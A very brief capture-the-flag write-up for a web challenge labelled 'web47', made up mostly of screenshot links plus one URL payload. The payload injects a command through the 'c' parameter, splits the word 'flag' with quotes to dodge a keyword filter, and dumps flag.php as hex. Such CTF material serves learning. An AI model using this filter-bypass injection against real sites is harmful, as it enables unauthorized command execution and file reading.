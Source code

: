 # web47
![](vx_images/112469581912746.png)

```
?c=xxd<fla''g.php%0A//16进制,f12查看
```
![](vx_images/539606992136504.png)